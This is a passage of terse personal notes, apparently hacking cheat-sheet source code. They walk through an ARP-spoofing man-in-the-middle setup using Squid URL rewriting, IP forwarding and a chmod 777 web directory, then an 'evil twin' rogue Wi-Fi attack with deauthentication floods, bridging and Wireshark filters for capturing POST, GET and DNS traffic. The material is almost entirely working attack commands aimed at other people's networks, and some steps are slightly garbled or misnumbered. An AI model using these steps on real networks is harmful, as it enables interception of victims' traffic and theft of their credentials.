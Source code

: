 		http_port 3128  
	>Add the following to the bottom of the file
		url_rewrite_program /root/path/to/scriptName.pl	
	4) Save (ctrl+O) and exit (ctrl+X)
	5) Restart Squid
		~service squid3 restart
	6) Do that again
		~echo 1 > /proc/sys/net/ipv4/ip_forward
	7) Configure APACHE
		~mkdir /var/www/tmp
		~chmod 777 /var/www/tmp
	8) Restart APACHE
		~service apache2 restart
	9) Spoof!
		~arpspoof -i eth0 -t 192.168.0.1 -r 192.168.0.101

	SPOOF CHECK
		~arp -a
	Check if any MAC ADDRESSES are the same as the default one!

---------------------------------------------------------------------

## EVIL TWIN ## 
	Redirecting website traffic

	Tools:	bridge
			wireshark

	0) Install the required packages
		~apt-get install bridge
		~apt-get install bridge-utils
		~apt-get install wireshark
	1) Create a virtual interface
		~ifconfig wlan0 down
		~iwconfig wlan0 mode monitor
		~airbase-ng -a <MAC> --essid "something" -c 6 wlan0
		~aireplay-ng -0 0 -a
	1) Send deauth requests
		~aireplay-ng -0 0 -a <MAC> wlan0
	3) Add your configurations to Bridge
		~brctl addbr evil
		~brctl addif evil <wirelessinterface>
		~brctl addif evil at0
	4) Turn it up again
		~ifconfig at0 0.0.0.0 up
		~ifconfig evil up
		~dhclient evil
	5) Listen to the traffic
		~wireshark 
	6) Filter by whatever you need
	-POST:
		~http.request.method == "POST"
	-GET:
		~http.request.method == "GET"
	-DNS:
		~dns
